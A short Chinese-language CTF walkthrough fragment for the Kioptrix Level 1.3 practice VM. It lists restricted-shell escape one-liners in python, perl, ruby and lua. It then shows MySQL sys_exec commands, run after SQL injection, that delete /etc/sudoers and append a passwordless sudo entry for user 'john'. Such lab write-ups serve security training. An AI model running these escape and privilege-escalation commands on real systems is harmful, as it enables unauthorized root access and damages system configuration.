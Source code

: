 # KIOPTRIX LEVEL 1.3 (#4)

```
python -c 'import pty; pty.spawn ("/bin/sh")'
echo os.system ('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute ('/bin/sh')
exec "/bin/sh"
```

先贴上一些常用的从受限制shell逃逸的命令，大部分命令是利用主机上安装的脚本语言，来运行一些命令执行的函数，如python的os.system()，lua的os.exec()函数，利用函数运行/bin/bash或/bin/sh等shell应用，切换到无限制shell。

```
select sys_exec('rm -r /etc/sudoers');
select sys_exec('chmod 0440 /etc/sudoers');
select sys_exec('echo "john ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers');
```

sql注入获得数据库权限，利用自建函数，sys_exec 将用户john加入超级用户文件sudoers![image-20230208170613569](/image/image-20230208170613569.png)

![image-20230208170506879](/image/image-20230208170506879.png)

![image-20230208170458827](/image/image-20230208170458827.png)

![image-20230208170728394](/image/image-20230208170728394.png)

